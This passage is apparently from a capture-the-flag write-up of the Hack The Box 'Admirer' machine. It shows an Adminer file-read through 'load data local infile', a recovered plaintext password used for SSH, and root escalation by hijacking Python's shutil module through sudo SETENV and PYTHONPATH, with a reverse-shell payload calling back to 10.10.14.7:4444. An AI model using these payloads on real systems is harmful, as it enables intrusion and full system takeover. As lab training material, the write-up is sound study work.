└─$ socat TCP-LISTEN:3306,fork,bind=10.10.14.9 TCP:127.0.0.1:3306
```
<br />
I used socat to create a TCP port forwarder or proxy that listens on port 3306 on the local machine (10.10.14.9) and forwards incoming connections to another service running on the local machine at 127.0.0.1 (localhost) on port 3306.
<br />

**socat**: This is the command itself, which is used for data transfer between two locations.
<br />
**TCP-LISTEN:3306**: This part of the command instructs socat to listen on port 3306 for incoming TCP connections. Essentially, it sets up a listener on the specified port.
<br />

**fork**: The fork option tells socat to fork a new process to handle each incoming connection. This means that multiple clients can connect simultaneously, and each will be handled by a separate child process.
<br />

**bind=10.10.14.9**: This option specifies the IP address to bind to for listening. In your case, it's binding to the local machine's IP address 10.10.14.9.
<br />

**TCP:127.0.0.1:3306**: This part of the command specifies the destination to which the incoming connections will be forwarded. It says to forward the traffic to 127.0.0.1 (localhost) on port 3306. This typically means that the connections are being forwarded to a MySQL server running on the local machine.
<br />

### Method 2: conf file

While socat is temporary, writing on config file is permanent until I make changes to it agin. 
<br />

On **/etc/mysql/mariadb.conf.d/50-server.cnf**, I can see that MySQL is configured to only listen locally(127.0.0.1):
<br />

```conf
<snip>
bind-address            = 127.0.0.1
<snip>
```
<br />
I can change the bind-address to 0.0.0.0.
<br />
Setting the bind-address to 0.0.0.0 in the context of network configurations typically means that a service or application is configured **to listen on all available network interfaces**. In other words, it's binding to all IP addresses assigned to the machine, **making it accessible from any network interface**, including the local loopback (127.0.0.1) and external network interfaces.
<br />

## Connecting adminer.php to local MySQL


<br />
With MySQL setup properly on local machine and MySQL connection forwarded to Hackthebox VPN interface, I can login to the system, connecting back to my local MySQL server. 
<br />



# <span style="color:red">User flag: waldo</span>

## Arbitrary file read

```sql
load data local infile '/var/www/html/index.php'
into table demo
fields terminated by "/n"
```
<br />
On **SQL command**, I can execute commands and read file from vicitm machine and import it to my local sql database.
<br />

I tried to read **index.php** since that was the file that contained crednetials, and it seemed to have worked:
<br />


<br />

On my local machine, I used **mysqldump** to extract table from **admirerpwn** database:
<br />

```bash
┌──(yoon㉿kali)-[~/Documents/htb/admirer]
└─$ sudo mysqldump -u jadu -p admirerpwn demo > admirerpwn-index-php-output_file.sql

Enter password: 
```
<br />
Looking into extracted sql file, I found new credential.
<br />
I found credential from **index.php** in tar file before, but that credential must have been outdated, and this one should be the current credential.
<br />

```php
$servername = \"localhost\";'),
$username = \"waldo\";'),
$password = \"&<h5b~yK3F#{PaPB&dA}{H>\";'),
$dbname = \"admirerdb\";'),
```
<br />
With newly found credential, I can successfully signin to ssh:
<br />

```ssh
┌──(yoon㉿kali)-[~/Documents/htb/admirer/ssh]
└─$ ssh waldo@admirer.htb 
<snip>
waldo@admirer.htb's password: 
Linux admirer 4.9.0-19-amd64 x86_64 GNU/Linux
<snip>
waldo@admirer:~$ whoami
waldo
waldo@admirer:~$ ls
user.txt
```
# <span style="color:red">privesec waldo -> root</span>

Using **sudo -l -S** command, I can check what command can user waldo run without root password with **SETENV**:
<br />

```bash
waldo@admirer:~$ sudo -l -S
[sudo] password for waldo: 
Matching Defaults entries for waldo on admirer:
    env_reset, env_file=/etc/sudoenv, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, listpw=always

User waldo may run the following commands on admirer:
    (ALL) SETENV: /opt/scripts/admin_tasks.sh
You have mail in /var/mail/waldo
```
<br /> 

Ability to execute python script with **SETENV** might imply possible **[module hijacking](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/python-privilege-escalation/)**.
<br />


## /opt/scripts

Two files are in /opt/scripts, **admin_tasks.sh** and **backup.py**.
<br />

```bash
waldo@admirer:/opt/scripts$ ls -al
total 16
drwxr-xr-x 2 root admins 4096 Dec  2  2019 .
drwxr-xr-x 3 root root   4096 Nov 30  2019 ..
-rwxr-xr-x 1 root admins 2613 Dec  2  2019 admin_tasks.sh
-rwxr----- 1 root admins  198 Dec  2  2019 backup.py
```
<br />
admin_tasks.sh:

```sh
waldo@admirer:/opt/scripts$ cat admin_tasks.sh 
#!/bin/bash

view_uptime()
{
    /usr/bin/uptime -p
}

view_users()
{
    /usr/bin/w
}

view_crontab()
{
    /usr/bin/crontab -l
}

backup_passwd()
{
    if [ "$EUID" -eq 0 ]
    then
        echo "Backing up /etc/passwd to /var/backups/passwd.bak..."
        /bin/cp /etc/passwd /var/backups/passwd.bak
        /bin/chown root:root /var/backups/passwd.bak
        /bin/chmod 600 /var/backups/passwd.bak
        echo "Done."
    else
        echo "Insufficient privileges to perform the selected operation."
    fi
}

backup_shadow()
{
    if [ "$EUID" -eq 0 ]
    then
        echo "Backing up /etc/shadow to /var/backups/shadow.bak..."
        /bin/cp /etc/shadow /var/backups/shadow.bak
        /bin/chown root:shadow /var/backups/shadow.bak
        /bin/chmod 600 /var/backups/shadow.bak
        echo "Done."
    else
        echo "Insufficient privileges to perform the selected operation."
    fi
}

backup_web()
{
    if [ "$EUID" -eq 0 ]
    then
        echo "Running backup script in the background, it might take a while..."
        /opt/scripts/backup.py &
    else
        echo "Insufficient privileges to perform the selected operation."
    fi
}

backup_db()
{
    if [ "$EUID" -eq 0 ]
    then
        echo "Running mysqldump in the background, it may take a while..."
        #/usr/bin/mysqldump -u root admirerdb > /srv/ftp/dump.sql &
        /usr/bin/mysqldump -u root admirerdb > /var/backups/dump.sql &
    else
        echo "Insufficient privileges to perform the selected operation."
    fi
}


# Non-interactive way, to be used by the web interface
if [ $# -eq 1 ]
then
    option=$1
    case $option in
        1) view_uptime ;;
        2) view_users ;;
        3) view_crontab ;;
        4) backup_passwd ;;
        5) backup_shadow ;;
        6) backup_web ;;
        7) backup_db ;;

        *) echo "Unknown option." >&2
    esac

    exit 0
fi


# Interactive way, to be called from the command line
options=("View system uptime"
         "View logged in users"
         "View crontab"
         "Backup passwd file"
         "Backup shadow file"
         "Backup web data"
         "Backup DB"
         "Quit")

echo
echo "[[[ System Administration Menu ]]]"
PS3="Choose an option: "
COLUMNS=11
select opt in "${options[@]}"; do
    case $REPLY in
        1) view_uptime ; break ;;
        2) view_users ; break ;;
        3) view_crontab ; break ;;
        4) backup_passwd ; break ;;
        5) backup_shadow ; break ;;
        6) backup_web ; break ;;
        7) backup_db ; break ;;
        8) echo "Bye!" ; break ;;

        *) echo "Unknown option." >&2
    esac
done

exit 0
```


<br />

It seemed that **admin_tasks.sh** is the exact same file as the **admin_tasks.php** inside **/utility-scripts**. 
<br />
User can choose menu out of 1~8:
<br />

```bash
waldo@admirer:/opt/scripts$ sudo ./admin_tasks.sh 

[[[ System Administration Menu ]]]
1) View system uptime
2) View logged in users
3) View crontab
4) Backup passwd file
5) Backup shadow file
6) Backup web data
7) Backup DB
8) Quit
Choose an option: 4
Backing up /etc/passwd to /var/backups/passwd.bak...
Done.
```
<br />

Option number 6, **backup web data** calls on **backup.py** and makes a backup to **/var/backups**. 
<br />

## Module Hijjacking

User **waldo** can execute **admin_tasks.py** as a root with **SETENV** and this can lead to **module hijacking**.
<br />

With SETENV, we can change PYTHONPATH when executing the script, and insert malicious script to the module which is imported in the script.
<br />

Looking into **backup.py**, we can see that it is importing **make_archive**.

<br />
backup.py:
<br />

```python
#!/usr/bin/python3

from shutil import make_archive

src = '/var/www/html/'

# old ftp directory, not used anymore
#dst = '/srv/ftp/html'

dst = '/var/backups/html'

make_archive(dst, 'gztar', src)
```
<br />

Let's forge imported module:
<br />


```bash
waldo@admirer:/var/backups$ cd /dev/shm
waldo@admirer:/dev/shm$ nano shutil.py
```
<br />

Inside **shutil.py**, I have script that spawns reverse shell:
<br />

```bash
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.7",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")
```
<br />

Prepare **nc listerner** on local machine and run **admin_tasks.sh**, selecting option 6 (calls **backup.py**).
<br />

```bash
waldo@admirer:/dev/shm$ sudo PYTHONPATH=/dev/shm /opt/scripts/admin_tasks.sh 
[sudo] password for waldo: 

[[[ System Administration Menu ]]]
1) View system uptime
2) View logged in users
3) View crontab
4) Backup passwd file
5) Backup shadow file
6) Backup web data
7) Backup DB
8) Quit
Choose an option: 6
Running backup script in the background, it might take a while...
```
<br />

Now I have reverse shell as root:
<br />
```bash
└─$ nc -lvp 4444                      
listening on [any] 4444 ...
connect to [10.10.14.7] from admirer.htb [10.10.10.187] 49618
root@admirer:~# whoami
whoami
root
```


## Sources:
- https://www.foregenix.com/blog/serious-vulnerability-discovered-in-adminer-tool
- https://github.com/p0dalirius/CVE-2021-43008-AdminerRead
- https://podalirius.net/en/cves/2021-43008/
- https://hevodata.com/learn/installing-mysql-on-ubuntu-20-04/
- https://dopal2.tistory.com/40
- https://nvd.nist.gov/vuln/detail/cve-2021-43008
- https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/python-privilege-escalation/


